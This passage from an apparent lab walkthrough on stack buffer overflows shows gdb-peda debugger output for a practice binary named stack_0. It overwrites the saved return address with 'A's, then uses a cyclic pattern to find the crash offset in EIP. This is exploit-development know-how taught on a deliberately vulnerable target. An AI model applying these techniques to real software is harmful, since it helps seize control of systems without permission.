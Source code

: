    gdb-peda$ ni
    [----------------------------------registers-----------------------------------]
    EAX: 0x26 ('&')
    EBX: 0x41414141 ('AAAA')
    ECX: 0x5655a160 --> 0x410a01f7
    EDX: 0xf7f8e890 --> 0x0
    ESI: 0xf7f8d000 --> 0x1d5d8c
    EDI: 0x0
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd648 ("AAAAAA\n\367\001")
    EIP: 0x41414141 ('AAAA')
    EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41414141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd648 ("AAAAAA\n\367\001")
    0004| 0xffffd64c --> 0xf70a4141
    0008| 0xffffd650 --> 0x1
    0012| 0xffffd654 --> 0xffffd6e4 --> 0xffffd810 ("/root/Desktop/Stack/stack_0")
    0016| 0xffffd658 --> 0xffffd6ec --> 0xffffd82c ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
    0020| 0xffffd65c --> 0xffffd674 --> 0x0
    0024| 0xffffd660 --> 0x1
    0028| 0xffffd664 --> 0x0
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    0x41414141 in ?? ()
**Calculating Crash point**

    gdb-peda$ pattern_create 100
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
delete breakpoints

    gdb-peda$ del 1
    gdb-peda$ info b
    No breakpoints or watchpoints.
and run again with pattern

    gdb-peda$ run
    Starting program: /root/Desktop/Stack/stack_0
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
    
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x65 ('e')
    EBX: 0x41434141 ('AACA')
    ECX: 0x5655a160 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
    EDX: 0xf7f8e890 --> 0x0
    ESI: 0xf7f8d000 --> 0x1d5d8c
    EDI: 0x0
    EBP: 0x41412d41 ('A-AA')
    ESP: 0xffffd648 ("AA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
    EIP: 0x44414128 ('(AAD')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x44414128
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd648 ("AA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
    0004| 0xffffd64c ("A)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")